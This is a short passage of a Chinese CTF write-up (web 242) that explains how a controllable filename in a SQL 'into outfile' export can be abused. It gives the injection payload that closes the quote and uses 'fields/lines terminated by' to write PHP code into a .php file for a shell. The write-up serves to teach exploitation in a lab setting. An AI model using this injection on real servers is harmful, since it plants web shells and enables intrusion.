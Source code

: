 ## web 242 file

还是在调试工具里看接口，会看到他通过post向`/api/dump.php`接口请求，把sql查询结果放入到`/dump/`路径下

![242](https://the0n3.top/medias/show-sql/242.png)

经常用sql写文件的人都知道可以写木马，但是这里的查询语句已经写死了，怎么写🐎。注意：sql语句里的`$filename`是可控的

在菜鸟教程看下sql导出语句

![2421](https://the0n3.top/medias/show-sql/2421.png)

原来导出语句后面是可以跟指定字符的

```sql
select a,b,a+b into outfile '/tmp/result.text'
fields terminated by ',' optionally enclosed by '"'
lines terminated by '\n'
from test_table;
```

### 字段末尾

`fields terminated by 分隔符`会在导出字段末尾添加一个指定的字符或语句作为分隔符

```sql
fields terminated by '<?php phpinfo();?>'
```

### 行末尾

`lines terminated by 分隔符`会在导出文件的每一个行末尾添加一个指定的字符或语句作为分隔符

```sql
lines terminated by '<?php phpinfo();?>'
```

### 自选位置

`optionally enclosed by '"'`

通过指定的字符将字段包裹起来，比如字段`a`的值是`123`，替换文件里的`a`为123，这样就可以在字段值中插入php代码了。

先使用单引号闭合，把分隔符构造的语句添加到sql语句里，最后注释掉后面的内容

```sql
filename=3.php'fields terminated by '<?php phpinfo();?>'#
```

::: tip 注意
sql导出数据到文件时，不存在覆盖的情况，或者说，已经存在的文件不能再写了
:::

![2422](https://the0n3.top/medias/show-sql/2422.png)

getshell

## web 243

